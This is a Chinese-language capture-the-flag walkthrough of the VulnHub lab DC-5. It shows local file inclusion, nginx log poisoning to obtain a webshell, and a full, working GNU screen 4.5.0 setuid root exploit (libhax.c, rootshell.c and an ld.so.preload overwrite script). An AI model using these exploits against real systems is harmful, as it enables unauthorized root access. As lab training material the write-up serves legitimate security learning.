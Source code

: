 ```yaml
---
title: DC-5复现
tags: 
  - vulnhub
  - 渗透测试
permalink: /archives/4952/
published: 2022-06-26 20:04:03
---
```


# DC-5复现

# 描述

> DC-5是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 该计划是让DC-5将其提升一个档次，因此这对初学者来说可能不是很好，但对于具有中级或更好经验的人来说应该是可以的。时间会证明一切（反馈也会证明一切）。
>
> 据我所知，只有一个可利用的入口点可以进入（也没有SSH）。这个特定的入口点可能很难识别，但它就在那里。您需要寻找一些与众不同的东西（随着页面的刷新而改变的东西）。这有望提供某种关于漏洞可能涉及的内容的想法。
>
> 只是为了记录，不涉及phpmailer漏洞。:-)
>
> 此挑战的最终目标是获取根并读取唯一的标志。
>
> Linux技能和熟悉Linux命令行是必须的，基本的渗透测试工具的一些经验也是如此。
>
> 对于初学者来说，Google可以提供很大的帮助，但是您可以随时在@DCAU7上发推文给我寻求帮助，以帮助您再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。
>
> 但是，如果您真的，真的卡住了，您可以观看这个视频，其中显示了第一步。

# 实战

## 信息收集

> 确定目标靶机的IP
>
> 扫面网段并判断目标靶机的IP，最终确定IP：192.168.116.129，并发现该靶机开放了80、111端口

![image-20220921225731025](./images/image-20220921225731025.png)

- 访问80端口

![image-20220921225838699](./images/image-20220921225838699.png)

## 目录扫描

![image-20220921230332927](./images/image-20220921230332927.png)

## 寻找漏洞

- 访问footer.php，发现年份是一直在变化的

![image-20220921230358781](./images/image-20220921230358781.png)

- 然后又访问了thankyou.php，在这里发现该页面调用了footer.php

![image-20220921230429298](./images/image-20220921230429298.png)

- 应该是使用php的‘include()’ 函数来包含了 ‘footer.php’ 文件，这样直接导致了LFI漏洞，下面我们来测试一下漏洞是否真的存在和看一下是否会过滤包含进来的文件

![image-20220921230459378](./images/image-20220921230459378.png)

- 发现可以成功读取到 /etc/passwd文件，存在文件包含漏洞
  - 靶机服务扫描时发现靶机网站使用的是nginx服务器，通过百度nginx服务器的配置文件/etc/nginx/nginx.conf，将nginx的配置文件包含过来查看日志路径，经过仔细查看发现了nginx的日志路径 

![image-20220920191246277](./images/image-20220920191246277.png)

## 漏洞利用

- 于是我们尝试包含日志文件，然后我们可以看到，日志文件会记录我们传入的参数，所以我们可以把php一句话当参数传给日志文件，然后再次尝试包含日志文件，即可使用webshell管理工具，蚁剑连接即可获得shell

![image-20220920200407600](./images/image-20220920200407600.png)

![image-20220920200444798](./images/image-20220920200444798.png)

- 蚁剑连接

![image-20220920200625503](./images/image-20220920200625503.png)

## 反弹shell

- 进入虚拟终端反弹shell

![image-20220920204425272](./images/image-20220920204425272.png)

- 切换一下shell的外壳;

```python
python -c 'import pty;pty.spawn("/bin/sh")'
```

## 提权

- 这里用的是suid提权,先用下面命令查找哪些命令具有suid权限

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20220921140010475](./images/image-20220921140010475.png)

> 找到一个screen-4.5.0，
>
> 用searchsploit 查找相关漏洞脚本

```
searchsploit screen 4.5.0 
```

![image-20220921140243318](./images/image-20220921140243318.png)

- 找到文件位置

![image-20220921141422922](./images/image-20220921141422922.png)

- 查看文件

![image-20220921141524801](./images/image-20220921141524801.png)

- 保存并编译libhax.c和rootshell.c

![image-20220921141717743](./images/image-20220921141717743.png)

- 编译libhax.c

- 脚本

>  gcc -fPIC -shared -ldl -o libhax.so libhax.c 

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

- 编译rootshell.c
- 脚本

>  gcc -o rootshell rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

> 将剩余代码保存为dc5.sh，再用vim打开编辑
>
> 保存dc5.sh文件输入 **:set ff=unix** ，否则在执行脚本文件时后出错

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell    
```

![image-20220921215636375](./images/image-20220921215636375.png)

- 将libhax.so 、rootshell 、dc5.sh三个文件通过蚁剑上传到靶机/tmp目录

![image-20220921220755016](./images/image-20220921220755016.png)

- 上传成功后，执行dc5.sh

> chomd +x dc5.sh	//增加执行权限
>
> ./dc5.sh	//执行文件

![image-20220921221625827](./images/image-20220921221625827.png)

- 进到root文件夹读取文件

![image-20220921221721259](./images/image-20220921221721259.png)